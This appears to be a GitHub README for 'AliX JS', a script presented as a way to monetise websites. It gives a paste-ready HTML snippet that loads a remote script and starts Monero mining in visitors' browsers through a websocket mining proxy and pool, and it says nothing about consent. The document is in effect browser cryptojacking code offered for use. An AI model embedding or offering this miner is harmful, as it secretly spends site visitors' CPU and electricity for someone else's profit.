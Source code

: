 AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
## HTML SCRIPT
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
### Other Things Docs Will Aviable Soon
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://f.xmrminingproxy.com:8181`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool